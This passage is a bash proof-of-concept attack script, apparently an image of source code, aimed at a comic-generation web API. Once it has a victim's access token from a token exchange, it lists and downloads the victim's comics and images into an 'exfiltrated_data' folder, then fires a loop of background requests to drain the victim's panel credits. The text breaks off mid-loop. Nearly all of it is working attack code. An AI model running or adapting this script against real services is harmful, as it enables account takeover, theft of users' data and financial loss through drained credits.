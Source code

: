 ```bash
VICTIM_TOKEN=$(echo "$EXCHANGE_RESPONSE" | jq -r '.accessToken // .token')

if [ "$VICTIM_TOKEN" == "null" ] || [ -z "$VICTIM_TOKEN" ]; then
  echo "[-] Token exchange failed"
  exit 1
fi

echo "[SUCCESS] Obtained victim's access token!"
echo "Token: ${VICTIM_TOKEN:0:30}..."

# Step 2: Enumerate victim's resources
echo "[+] Enumerating victim's comics..."
curl -s -X GET "${TARGET_API}/api/comics" \
  -H "Authorization: Bearer ${VICTIM_TOKEN}" \
  > victim_comics.json

COMIC_COUNT=$(cat victim_comics.json | jq '. | length')
echo "[+] Found ${COMIC_COUNT} comics"

# Step 3: Exfiltrate all comic data
mkdir -p exfiltrated_data

cat victim_comics.json | jq -r '.[].comic_id' | while read COMIC_ID; do
  echo "[+] Downloading comic: ${COMIC_ID}"
  
  curl -s -X GET "${TARGET_API}/api/comics/${COMIC_ID}" \
    -H "Authorization: Bearer ${VICTIM_TOKEN}" \
    > "exfiltrated_data/${COMIC_ID}.json"
  
  # Download associated images
  cat "exfiltrated_data/${COMIC_ID}.json" | \
    jq -r '.pages[].panels[].image_url' | \
    while read IMAGE_URL; do
      if [ ! -z "$IMAGE_URL" ]; then
        wget -q -P exfiltrated_data/ "$IMAGE_URL"
      fi
    done
done

# Step 4: Check victim's credit balance
echo "[+] Checking victim's credits..."
curl -s -X GET "${TARGET_API}/api/user/credits" \
  -H "Authorization: Bearer ${VICTIM_TOKEN}" \
  > victim_credits.json

BALANCE=$(cat victim_credits.json | jq -r '.panel_balance')
echo "[+] Victim's balance: ${BALANCE} panels"

# Step 5: Drain victim's credits
if [ "$BALANCE" -gt 0 ]; then
  echo "[+] Draining victim's credits..."
  
  for i in $(seq 1 $BALANCE); do
    curl -s -X POST "${TARGET_API}/api/comics/generate-image" \
      -H "Authorization: Bearer ${VICTIM_TOKEN}" \
      -H "Content-Type: application/json" \
      -d "{\"panelDescription\": \"Generated by attacker $i\"}" \
      > /dev/null &
    
    # Don't overwhelm the server
    if (( i % 10 == 0 )); then
      wait
    fi
```